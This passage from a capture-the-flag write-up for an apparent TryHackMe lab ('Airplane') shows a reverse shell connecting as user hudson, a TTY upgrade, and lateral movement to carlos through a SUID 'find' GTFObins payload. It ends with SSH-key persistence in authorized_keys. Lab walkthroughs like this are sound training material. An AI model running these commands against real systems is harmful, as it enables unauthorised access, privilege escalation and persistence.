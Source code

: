 7. Execute the reverse shell executable

> Make sure your listener is set to the port number you decided in step 1

```
run
y
```

![Reverse shell executed](/images/THM-Airplane/revshell_executed.png)

On the listener we receive a connection as `hudson`.

![Foothold](/images/THM-Airplane/foothold.png)

We upgrade our shell with the following commands

```
python3 -c 'import pty;pty.spawn("/bin/bash")'  
export TERM=xterm  
ctrl + z  
stty raw -echo; fg
stty rows 38 columns 116
```

![Shell Upgrade](/images/THM-Airplane/shell_upgrade.png)

The user flag is not on this account, so we have to move to the second account. 

### Lateral Movement (shell as carlos)

We run linpeas and find that `/usr/bin/find` has the SUID bit set and it is owned by `carlos`.

![find binary with SUID bit set](/images/THM-Airplane/find_binary.png)

On [GTFObins](https://gtfobins.github.io/gtfobins/find/) we find a payload to escalate our privileges and the user flag is in `/home/carlos`.

```
/usr/bin/find . -exec /bin/bash -p \; -quit
```

![user flag](/images/THM-Airplane/user_flag.png)

With `ls -la` we notice the `.ssh` directory. We can add an ssh key to `/home/carlos/.ssh/authorized_keys` to be able to login via SSH as `carlos`.

We generate a key pair with 

```
ssh-keygen -t rsa -b 2048 -f carlos
```

![SSH keygen](/images/THM-Airplane/keygen_carlos.png)

We store the content of `carlos.pub` in `/home/carlos/.ssh/authorized_keys` using 

```
echo 'CONTENT OF carlos.pub' > /home/carlos/.ssh/authorized_keys

chmod 600 /home/carlos/.ssh/authorized_keys
```
